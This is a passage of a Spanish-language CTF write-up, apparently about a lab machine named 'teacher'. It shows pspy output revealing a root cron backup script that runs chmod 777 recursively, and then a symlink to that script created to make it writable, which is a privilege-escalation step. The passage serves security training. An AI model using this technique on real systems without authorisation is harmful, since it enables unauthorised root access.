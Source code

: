 Contenido de "tmp"

```bash
giovanni@teacher:~/work/tmp$ ls -la
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Mar 21  2022 .
drwxr-xr-x 4 giovanni giovanni 4096 Mar 21  2022 ..
-rwxrwxrwx 1 root     root      259 Mar 17 12:30 backup_courses.tar.gz
drwxrwxrwx 3 root     root     4096 Mar 21  2022 courses
giovanni@teacher:~/work/tmp$ cd courses/
giovanni@teacher:~/work/tmp/courses$ ls -la
total 12
drwxrwxrwx 3 root     root     4096 Mar 21  2022 .
drwxr-xr-x 3 giovanni giovanni 4096 Mar 21  2022 ..
drwxrwxrwx 2 root     root     4096 Mar 21  2022 algebra
giovanni@teacher:~/work/tmp/courses$
```


Hya un backup de lo que hay en courses y tiene permisos 777 , puede que haya una tarea cron por detras ejecutandose. Vamos a subir pspy para monitorearlo.

```bash
2023/03/17 12:41:01 CMD: UID=0    PID=2320   | /bin/sh -c /usr/bin/backup.sh 
2023/03/17 12:41:01 CMD: UID=0    PID=2321   | tar -czvf tmp/backup_courses.tar.gz courses/algebra 
2023/03/17 12:41:01 CMD: UID=0    PID=2322   | tar -czvf tmp/backup_courses.tar.gz courses/algebra 
2023/03/17 12:41:01 CMD: UID=0    PID=2323   | gzip 
2023/03/17 12:41:01 CMD: UID=0    PID=2324   | /bin/bash /usr/bin/backup.sh 
2023/03/17 12:41:01 CMD: UID=0    PID=2325   | tar -xf backup_courses.tar.gz 
2023/03/17 12:41:01 CMD: UID=0    PID=2326   | chmod 777 backup_courses.tar.gz courses -R 
2023/03/17 12:42:01 CMD: UID=0    PID=2327   | /usr/sbin/CRON -f 
2023/03/17 12:42:01 CMD: UID=0    PID=2328   | /usr/sbin/CRON -f 
2023/03/17 12:42:01 CMD: UID=0    PID=2329   | /bin/sh -c /usr/bin/backup.sh 
2023/03/17 12:42:01 CMD: UID=0    PID=2330   | tar -czvf tmp/backup_courses.tar.gz courses/algebra 
2023/03/17 12:42:01 CMD: UID=0    PID=2331   | tar -czvf tmp/backup_courses.tar.gz courses/algebra 
2023/03/17 12:42:01 CMD: UID=0    PID=2332   | gzip 
2023/03/17 12:42:01 CMD: UID=0    PID=2333   | /bin/bash /usr/bin/backup.sh 
2023/03/17 12:42:01 CMD: UID=0    PID=2334   | tar -xf backup_courses.tar.gz 
2023/03/17 12:42:01 CMD: UID=0    PID=2335   | /bin/bash /usr/bin/backup.sh 
```

Se esta ejecutando el siguiente script:

```bash
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

Podemos aprovecharnos de la siguiente forma, vamos a crear un enlace simbólico hacia el script para poder modificarlo.

```bash
giovanni@teacher:~/work/tmp$ ln -s /usr/bin/backup.sh 
giovanni@teacher:~/work/tmp$ ls -la
total 16
drwxr-xr-x 3 giovanni giovanni 4096 Mar 17 12:56 .
drwxr-xr-x 4 giovanni giovanni 4096 Mar 21  2022 ..
-rwxrwxrwx 1 root     root      306 Mar 17 12:56 backup_courses.tar.gz
lrwxrwxrwx 1 giovanni giovanni   18 Mar 17 12:56 backup.sh -> /usr/bin/backup.sh
drwxrwxrwx 3 root     root     4096 Mar 17 12:56 courses
```
